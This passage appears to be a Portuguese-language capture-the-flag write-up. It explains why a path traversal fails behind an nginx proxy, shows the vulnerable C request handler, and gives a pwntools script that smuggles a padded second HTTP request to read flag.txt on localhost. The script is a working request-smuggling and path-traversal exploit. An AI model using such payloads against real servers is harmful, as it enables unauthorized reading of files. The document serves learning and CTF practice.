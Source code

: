 O porblema aqui é que o proxy do nginx encaminha a URL processada para o backend, localizada na porta `8080` enquanto nós estamos na porta `8081`. Em outras palavras, o truque de path traversal que tentamos usar não funciona porque o Nginx remove os `../` antes de passar a requisição para o backend.

Temos então que voltar ao código original e reanalisar o código para descobrir como passar por isso.

```
void handle_client(int socket_id) {
    char buffer[BUFFER_SIZE];
    char requested_filename[BUFFER_SIZE];

    while (1) {
        memset(buffer, 0, sizeof(buffer));
        memset(requested_filename, 0, sizeof(requested_filename));

        if (read(socket_id, buffer, BUFFER_SIZE) == 0) return;

        if (sscanf(buffer, "GET /%s", requested_filename) != 1)
            return build_response(socket_id, 500, "Internal Server Error", read_file("500.html"));

        FileWithSize *file = read_file(requested_filename);
        if (!file)
            return build_response(socket_id, 404, "Not Found", read_file("404.html"));

        build_response(socket_id, 200, "OK", file);
    }
}
```

No fim do código  é possível observar que, se a requisição for bem-sucedida, não há um retorno imediato (a função não encerra), e o servidor continua lendo dados do buffer. Isso permite enviarmos mais de uma requisição ao mesmo tempo realizando um ataque de HTTP smuggling.

Vamos mudar nossa requisição para o seguinte script e assim conseguiremos a flag.

```
from pwn import *

def pad(path):
    assert len(path) <= 1016
    prefix = '/' * (1016 - len(path))  
    suffix = '.js'  
    return prefix + path + suffix

r = remote('localhost', 8081)  

path = pad('../../flag.txt')  
payload = (
    'GET /index.html HTTP/1.1\r\n'
    'Content-Length: 1024\r\n'
    'Host: localhost\r\n'
    f'Foo: {"a"*931}\r\n'  # Preenche com caracteres "a"
    '\r\n'

    # Requisição forjada
    f'GET /{path}'
    'GET /index.html HTTP/1.1\r\n'
    'Content-Length: 0\r\n'
    'Host: localhost\r\n'
    '\r\n'
)

print(f'payload: {payload}')
r.send(payload.encode())
```